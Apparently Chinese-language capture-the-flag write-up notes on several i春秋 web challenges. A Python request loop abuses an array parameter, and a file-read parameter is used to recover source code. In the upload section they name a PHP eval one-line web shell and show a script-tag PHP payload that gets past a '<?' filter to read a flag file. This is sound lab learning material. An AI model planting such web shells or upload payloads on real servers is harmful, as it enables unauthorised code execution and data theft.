```
  echo $flag;
}

show_source(__FILE__);
?>
```
1、whoami需要等于传递的value值的前两位，并且value的md5值的第5为开始，长度为4的字符串==0，这样num++，所以构造calue为数组；
2、whoami=str_rands，循环10次后，输出flag。

大佬的脚本

```
import requests

url = "http://b49c840973a243d094483c60bf42a34e4c4b863cd17e4e51.changame.ichunqiu.com/?value[]=ea"
#al = ['abcdefghijklmnopqrstuvwxyz'] //这里没有理解，注释掉一样出来结果
s = requests.session()
r=s.get(url)

for i in range(20):
    url = "http://b49c840973a243d094483c60bf42a34e4c4b863cd17e4e51.changame.ichunqiu.com/?value[]=" + r.content[0:2]
    r=s.get(url)
    print r.content
```

## upload（i春秋）

上传一句话木马，访问php，@eval($_POST[1]); ?> ，发现<?被过滤

构造php

```
<script language="PHP">
   echo((file_get_contents('../flag.'.'php')));
</script>
```

## code（i春秋）

?jpg=index.php get参数读取源码，src中的base64解码

wp说和phpStorm有关，于是百度一下phpStorm，学习到phpstorm写的会有一个 .idea 文件夹，里面存储了一些配置文件，发现了fl3g_ichuqiu.php

```
$file = 'fl3gconfigichuqiu.php';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
$file = str_replace("config","_", $file);
```
源码中config替换成_

?jpg=fl3gconfigichuqiu.php，base64解码发现

```
<?php
/**
 * Created by PhpStorm.
 * Date: 2015/11/16
 * Time: 1:31
 */
error_reporting(E_ALL || ~E_NOTICE);
include('config.php');

//获取length位数的随机字符串
function random($length, $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz') {
    $hash = '';
    $max = strlen($chars) - 1;
```